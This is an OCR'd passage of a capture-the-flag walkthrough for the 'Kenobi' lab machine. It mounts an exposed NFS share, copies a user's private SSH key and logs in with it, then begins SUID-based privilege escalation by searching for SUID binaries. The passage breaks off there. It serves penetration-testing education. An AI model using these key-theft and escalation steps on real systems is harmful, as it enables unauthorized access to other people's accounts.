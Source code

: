 **4. Mount /var/tmp Directory**

* Create network mount.

mkdir /mnt/kenobi\_nfs

mount 10.10.233.82:/var /mnt/kenobi\_nfs

ls -la /mnt/kenobi\_nfs

**5. Get Private Key.**

cp /mnt/kenobi\_nfs/tmp/id\_rsa .

sudo chmod 600 id\_rsa

**6. Login to Kenobi user's account.**

ssh -i id\_rsa kenobi\_10.10.233.83

* \-i selects identify file (private key).

### **Privilege Escalation with Path Variable Manipulation** <a href="#id-7pt9ukc0i0k6" id="id-7pt9ukc0i0k6"></a>

* ![LN2uOCJ](<../.gitbook/assets/0 (6).png>)

| **Permission** | **On Files**                                         | **On Directories**                                        |
| -------------- | ---------------------------------------------------- | --------------------------------------------------------- |
| SUID bit       | User executes file with permissions of _file_ owner. |                                                           |
| SGID bit       | User executes file with permission of _group_ owner. | File created in directory gets the same group owner.      |
| Sticky bit     | No meaning                                           | Users are prevented from deleting files from other users. |

* SUID (Set owner User ID up on execution) bits can be extremely dangerous.
* Some binaries such as passwd must be run with elevated privileges to rest a user's password.
* Other custom files with SUID bit set can lead to issues.

**1. Search system for binaries with SUID bit set.**

find / -perm -u=s -type f 2>/dev/null

* "/usr/bin/menu" binary does not usually have SUID permissions.
* Running binary provides three options.

/usr/bin/menu

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
